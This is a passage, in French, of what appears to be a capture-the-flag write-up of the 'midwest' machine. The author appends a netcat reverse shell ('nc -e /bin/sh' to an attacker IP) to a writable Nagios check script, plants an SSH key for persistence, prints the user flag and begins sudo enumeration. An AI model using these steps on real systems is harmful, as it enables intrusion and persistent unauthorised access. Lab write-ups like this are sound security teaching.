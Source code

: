 J'ai essayé de modifier le fichier `cfg` mais il semble que la modification ne soit pas rechargée et je ne dispose pas de droits suffisants pour envoyer un signal au process `Nagios`.

Toutefois dans les services il y en a un nommé `Memory Usage` faisant appel à la `Command` `check_local_mem` qui correspond à l'entrée suivante :

```bash
define command {
    command_name    check_local_mem
    command_line    $USER1$/custom_check_mem -w $ARG1$ -c $ARG2$ -n
}
```

Il s'agit d'un script bash et on a bien un accès écriture :

```bash
www-data@midwest:/usr/local/nagios$ file libexec/custom_check_mem
libexec/custom_check_mem: Bourne-Again shell script, ASCII text executable
www-data@midwest:/usr/local/nagios$ ls -al libexec/custom_check_mem
-rwxrwxr-x 1 www-data nagios 3435 Jan 22  2021 libexec/custom_check_mem
```

Je le modifie pour ajouter la commande `nohup nc -e /bin/sh 192.168.56.1 7777&` et j'attend que mon shell vienne et que ma volonté soit faite (envoie sa soeur !) :

```bash
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.106.
Ncat: Connection from 192.168.56.106:51380.
id
uid=1001(nagios) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
cd /home/nagios
mkdir .ssh
cd .ssh
echo ssh-rsa AAAA--- snip ma clé publique SSH snip ---cT7R== > authorized_keys
exit
```

Je peux alors me connecter au SSH avec l'utilisateur `Nagios` et j'obtiens bien le premier flag :

```
nagios@midwest:~$ cat user.txt 
7ec306b6fa01510ffc4e0d0fac97c23e
```

## Root 66

Pour l'escalade de priviléges, le compte a un bon nombre de permissions sudo :

```bash
nagios@midwest:~$ sudo -l
Matching Defaults entries for nagios on midwest:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on midwest:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
```